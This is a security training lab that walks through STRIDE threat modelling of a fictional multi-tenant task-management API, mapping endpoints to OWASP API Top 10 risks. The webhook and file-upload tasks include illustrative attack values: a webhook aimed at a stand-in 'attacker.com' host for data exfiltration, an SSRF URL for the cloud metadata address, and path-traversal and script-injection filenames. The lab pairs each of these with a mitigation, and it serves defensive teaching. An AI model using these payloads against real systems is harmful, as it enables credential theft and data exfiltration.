






# Lab 02: API Threat Model with STRIDE

## Objective

Apply STRIDE methodology to a RESTful API, identifying API-specific threats and security controls.

---

## Scenario: TaskMaster API

You are securing a task management SaaS API used by enterprise customers.

### API Overview

**TaskMaster API v2**

- Authentication
  - POST /auth/login
  - POST /auth/register
  - POST /auth/refresh
  - POST /auth/logout
  - POST /auth/forgot-password
- Users
  - GET — /users/me
  - PUT — /users/me
  - DELETE /users/me
  - GET — /users/{id}  (admin only)
- Workspaces (Multi-tenant)
  - GET — /workspaces
  - POST — /workspaces
  - GET — /workspaces/{id}
  - PUT — /workspaces/{id}
  - DELETE /workspaces/{id}
  - POST — /workspaces/{id}/invite
- Tasks
  - GET — /workspaces/{id}/tasks
  - POST — /workspaces/{id}/tasks
  - GET — /workspaces/{id}/tasks/{taskId}
  - PUT — /workspaces/{id}/tasks/{taskId}
  - DELETE /workspaces/{id}/tasks/{taskId}
  - POST — /workspaces/{id}/tasks/{taskId}/attachments
- Webhooks
  - GET — /webhooks
  - POST — /webhooks
  - DELETE /webhooks/{id}
  - POST — /webhooks/{id}/test


### Technology Stack

| Component | Technology |
|-----------|------------|
| API Framework | Node.js / Express |
| Authentication | JWT (RS256) |
| Database | PostgreSQL |
| File Storage | AWS S3 |
| Cache | Redis |
| Rate Limiting | Redis-based |
| Documentation | OpenAPI 3.0 |

---

## Architecture

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

---

## Lab Tasks

### Task 1: API Endpoint Analysis (20 minutes)

Categorize each endpoint by sensitivity:

| Endpoint | Auth Required | Data Sensitivity | STRIDE Focus |
|----------|---------------|------------------|--------------|
| POST /auth/login | No | Credentials | S, I, D |
| GET /users/me | Yes | PII | S, I |
| POST /workspaces/{id}/tasks | Yes | Business Data | S, T, R, E |
| POST /webhooks | Yes | URLs, Secrets | S, T, I, E |

**Complete for all endpoints listed above.**

---

### Task 2: Authentication Flow Analysis (25 minutes)

Analyze the JWT authentication flow:

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

**STRIDE the authentication flow:**

| Step | S | T | R | I | D | E | Threats |
|------|---|---|---|---|---|---|---------|
| Credential submission | | | | | | | |
| Password verification | | | | | | | |
| JWT generation | | | | | | | |
| Token storage | | | | | | | |
| Token transmission | | | | | | | |

---

### Task 3: OWASP API Top 10 Mapping (30 minutes)

Map STRIDE findings to OWASP API Security Top 10:

| OWASP API | Description | Relevant Endpoints | STRIDE | Threats Found |
|-----------|-------------|-------------------|--------|---------------|
| API1: BOLA | Broken Object Level Auth | /workspaces/{id}, /tasks/{id} | E | |
| API2: Broken Auth | Authentication flaws | /auth/* | S, E | |
| API3: BOPLA | Broken Object Property Level Auth | PUT endpoints | T, E | |
| API4: Unrestricted Resource Consumption | No rate limiting | All | D | |
| API5: BFLA | Broken Function Level Auth | Admin endpoints | E | |
| API6: SSRF | Server-Side Request Forgery | /webhooks | T, I | |
| API7: Security Misconfiguration | Misconfigs | All | I, E | |
| API8: Lack of Protection | Missing controls | All | All | |
| API9: Improper Inventory | Undocumented APIs | Shadow APIs | I | |
| API10: Unsafe API Consumption | Third-party APIs | Webhooks | T, I | |

---

### Task 4: Multi-Tenancy Threat Analysis (25 minutes)

Analyze workspace isolation:

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

**Isolation threat checklist:**

| Threat | Description | Test Case |
|--------|-------------|-----------|
| Cross-tenant data access | User A accesses Tenant B data | GET /workspaces/{tenant_b_id} |
| ID enumeration | Guessing workspace/task IDs | Sequential ID testing |
| Shared resource leakage | Cache poisoning | Redis key collision |
| Search result leakage | Searching returns other tenant data | Full-text search |
| Attachment access | Direct S3 URL access | S3 presigned URL scope |

---

### Task 5: Webhook Security Analysis (20 minutes)

Webhooks create SSRF and data exfiltration risks:

```
POST /webhooks
{
  "url": "https://attacker.com/receive",
  "events": ["task.created", "task.updated"],
  "secret": "webhook_secret_123"
}
```

**Threat analysis:**

| Threat | Attack | Impact | Mitigation |
|--------|--------|--------|------------|
| SSRF | url: "http://169.254.169.254/..." | Credential theft | URL validation |
| Data exfiltration | url: "https://attacker.com" | Data breach | Domain allowlist |
| Internal scanning | url: "http://internal-service" | Recon | Block internal IPs |
| Callback bombing | Many webhooks to same URL | DoS | Rate limiting |

---

### Task 6: File Upload Threat Analysis (20 minutes)

Analyze the attachment upload flow:

```
POST /workspaces/{id}/tasks/{taskId}/attachments
Content-Type: multipart/form-data

file: [binary data]
```

**Threat matrix:**

| Threat | Attack Vector | STRIDE | Mitigation |
|--------|---------------|--------|------------|
| Malware upload | .exe disguised as .pdf | T, D | File type validation |
| Path traversal | filename: "../../../etc/passwd" | T, I | Sanitize filename |
| DoS via large files | 10GB upload | D | File size limits |
| XSS via filename | filename: "<script>..." | T | Encode in response |
| Storage exhaustion | Many large files | D | Quota per workspace |

---

### Task 7: Rate Limiting Analysis (15 minutes)

Design rate limiting strategy:

| Endpoint Category | Limit | Window | Bypass Risk |
|-------------------|-------|--------|-------------|
| /auth/login | 5 | 15 min | Brute force |
| /auth/forgot-password | 3 | 1 hour | Account enumeration |
| /workspaces/*/tasks | 100 | 1 min | Normal usage |
| /webhooks/*/test | 10 | 1 min | Webhook abuse |

**Rate limit bypass threats:**

- IP rotation (use account-based limiting)
- Distributed attacks (use fingerprinting)
- API key sharing (monitor for anomalies)

---

### Task 8: Create Threat Register (20 minutes)

Document top 10 API threats:

| ID | Threat | Endpoint | STRIDE | OWASP | Likelihood | Impact | Risk |
|----|--------|----------|--------|-------|------------|--------|------|
| API-001 | IDOR on workspace access | /workspaces/{id} | E | API1 | High | High | Critical |
| API-002 | | | | | | | |
| API-003 | | | | | | | |

---

## API Security Testing Checklist

```
Authentication:
□ Test JWT signature validation
□ Test expired token handling
□ Test token refresh flow
□ Test logout invalidates tokens
□ Test password reset flow

Authorization:
□ Test BOLA on all resource endpoints
□ Test BFLA on admin functions
□ Test cross-tenant access
□ Test privilege escalation

Input Validation:
□ Test SQL injection on all parameters
□ Test NoSQL injection
□ Test XSS in stored fields
□ Test path traversal in file operations
□ Test SSRF in webhook URLs

Rate Limiting:
□ Test rate limits are enforced
□ Test rate limit bypass techniques
□ Test account lockout

Data Exposure:
□ Test for excessive data in responses
□ Test error message information leakage
□ Test debug endpoints disabled
```

---

## Evaluation Criteria

| Criteria | Points |
|----------|--------|
| Endpoint sensitivity analysis | 15 |
| Authentication flow STRIDE | 20 |
| OWASP API Top 10 mapping | 15 |
| Multi-tenancy analysis | 15 |
| Webhook security analysis | 15 |
| File upload analysis | 10 |
| Threat register quality | 10 |
| **Total** | **100** |

---

## Next Lab

→ [Lab 03: Microservices with PASTA](../lab-03-microservices/)

<!-- feynman-check -->

---

## Feynman check

Close the file. Blank page, no notes. Explain each of these to a competent engineer who has never
used this tool — **under five minutes, no jargon you can't define on the spot:**

- Scenario: TaskMaster API
- API Security Testing Checklist
- API Overview
- API Endpoint Analysis

**The gap is not what you forgot. It is where you used a word instead of a mechanism.**

| | |
|---|---|
| ✗ | *"We scan for vulnerabilities in the pipeline."* |
| ✓ | *"SAST reads source without running it, SCA resolves the dependency tree against an advisory database, and image scanning compares installed package versions to that same database. All three report what was known at build time — which is why the registry is re-scanned: the image does not change, the database does."* |

**Trace it:** A CVE published today against your base image → a blocked deploy. Name every component between the advisory and the refused `apply`.

Stop at the first component you cannot name. Reopen this file and read **only** that.

**Go deeper — only once the gap has a name:** the [SLSA threat model](https://slsa.dev/spec/v1.2/threats) — it names every point at which a build can be subverted, and most teams defend three of them.
Full list per domain: [`SOURCES.md`](../../SOURCES.md#devsecops)

→ Protocol, the three levels of knowing, and worked examples: [`MASTERY.md`](../../MASTERY.md)

<!-- /feynman-check -->
